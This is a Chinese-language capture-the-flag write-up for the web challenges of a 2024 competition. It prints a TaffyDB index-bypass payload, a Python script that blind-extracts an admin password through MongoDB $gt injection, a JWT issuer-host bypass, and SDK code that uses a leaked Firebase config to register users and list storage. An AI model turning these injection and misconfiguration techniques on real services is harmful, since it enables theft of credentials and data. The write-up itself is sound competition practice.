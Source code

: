 `https://ctf.squ1rrel.dev/login?token=s1pniGOFTCNbGpXBaH6TOnQHoHPmROX77Hag8pLcUTSXzEHayVkKRN0cUF7B6k%2BoUNGHOQwBeyNHoSmpE%2BqEOi1cVPDDG1fNtFosvy%2FlUdEhw4BNtLfxiifRmcbb`
# web
### web/JSON Store

俩个路由
```js
const db = TAFFY([
    {"username": "admin", "comments": process.env.FLAG},
    {"username": "randomuser", "comments": "This is a test comment"},
]);
```
导入了taffydb这个内存数据库,存入和读取json

| 路由 | 作用 |
| ---- | ---- |
| app.post("/getData", | 获取username,filters,设置 filters["username"]=username ;`const data = db(filters).get();`返回data |
| app.post("/addData",  | 获取username,data,插入data,设置`data["username"] = username;`<br> |
感觉应该在getData下,构造一个filters,读取到admin的commnents,但是由于中间件存在express.json(),强制json解析body,导致taffy原本的查询语法部分不能使用


破案了,在npm install的时候直接提示了一个高危漏洞...
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240505224755.png)

taffydb在查询时如果找到索引,就会忽略其他条件,直接返回索引数据项,然后构造,尝试id遍历即可

```json
{
    "filters": {
        "___id":"T000002R000002",
        "___s":"true"
    },
    "username": "a"
}
```

### web/Goosemon
flag在admin的用户密码里,数据库用的是mongodb

ban掉了关键字regex,防止正则表达式注入

看来需要盲注出admin的密码
```js
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
```
https://www.mongodb.com/docs/v6.0/reference/operator/query/gt/
mongodb的操作符,发现有gte(>=),可以盲注

但是盲注过程中有`regex`这个字符串,被filter函数过滤了
```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```


```python
import requests

url="http://34.132.166.199:5249/login"

flag="squ1rrel{7h0ugh7_y0u_c0u1d_rege"

for i in range(1000):
    min=0
    max=127
    mid=(min+max)//2
    while max > min:
        mid = (min+max)//2
        data={
            "username": "admin",
            "password": {
                "$gt":flag+chr(mid)
            }
        }
        print(data)
        result=requests.post(url,json=data)
        if (result.status_code==400):
            max=mid
        else:
            min=mid+1
        mid = (min+max)//2
    flag+=chr(mid-1)
    print(flag)


```

切片,拼接在mongodb查询里也不能用...


---
别人用的是expr,gpt害我
```json
{'username': 'admin', "$expr": { "$eq": [ { "$substr": ["$password", i, 1] }, c ]}}
```

### web/Key Server
一个jwt校验,公钥可以从url中读取,
```js
    if (!issuer.host.startsWith("10.")) {
        return res.status(401).send("Invalid IP address");
    }
```
https://dnsexit.com/domains/free-second-level-domains/
host是主机名不是ip,可以申请一个免费的二级域名 `10.publicvm.com`

本地通了,远程不行...

### web/mutex-lock
```js
app.put("/mutex/:name", (req, res) => {
    const { name } = req.params;
    if (mutexes[name] == undefined) {
        const uuid = crypto.randomUUID();
        mutexes[name] = uuid;
        return res.status(200).send("Acquired! Password to release: " + uuid);
    } else {
        return res.status(409).send("Mutex already acquired");
    }
});

app.delete("/mutex/:name", (req, res) => {
    const { name } = req.params;
    const pwd = req.query.pwd;
    if (mutexes[name] == undefined) {
        return res.status(404).send("Mutex not found");
    }

    if (mutexes[name] == pwd) {
        delete mutexes[name];
        return res.status(200).send("Mutex released.");
    } else {
        return res.status(403).send("Invalid password -- do you control this mutex?");
    }
});


```

很简单的代码,flag在环境变量里,但是这俩个路由也没有可以读flag的地方啊...

---

出题者修改了express的来源,指向了他的仓库,进去之后看commit
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240506181958.png)

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240509105214.png)


### web/Personal Website
https://squ1rrel.dev/squ1rrel-personal-website
一个简单的博客,什么也没有

---
通过wappalyzer可以看到是使用了firebase,并且图片也是用的这个存储
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240509105639.png)

firebase是谷歌的云主机NoSQL数据库

https://firebase.google.com/docs/hosting/reserved-urls?hl=zh-cn
可以发现,初始配置在`/__/firebase/init.json`中,可以读取apikey
```json
{
  "apiKey": "AIzaSyAlUQ9NC6P-KiEVPuwD9X6rwuZwB1lcvd4",
  "authDomain": "my-personal-website-a.firebaseapp.com",
  "databaseURL": "https://my-personal-website-a-default-rtdb.firebaseio.com",
  "messagingSenderId": "415548456803",
  "projectId": "my-personal-website-a",
  "storageBucket": "my-personal-website-a.appspot.com"
}
```

```js
import { initializeApp } from 'firebase/app';
import { getFirestore, collection, getDocs } from 'firebase/firestore/lite';
import { getStorage ,list ,ref } from 'firebase/storage';
import {getAuth,createUserWithEmailAndPassword} from 'firebase/auth';
// TODO: Replace the following with your app's Firebase project configuration
const firebaseConfig = {
   "apiKey": "AIzaSyAlUQ9NC6P-KiEVPuwD9X6rwuZwB1lcvd4",
  "authDomain": "my-personal-website-a.firebaseapp.com",
  "databaseURL": "https://my-personal-website-a-default-rtdb.firebaseio.com",
  "messagingSenderId": "415548456803",
  "projectId": "my-personal-website-a",
  "storageBucket": "my-personal-website-a.appspot.com"
};

const app = initializeApp(firebaseConfig);

const auth = getAuth();
await createUserWithEmailAndPassword(auth, "kjiel@user.com", "password");

const storage = getStorage(app);
const data = await list(ref(storage, "/"))
console.log(data)
```

提示网络错误,,,


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-05-05   22:39
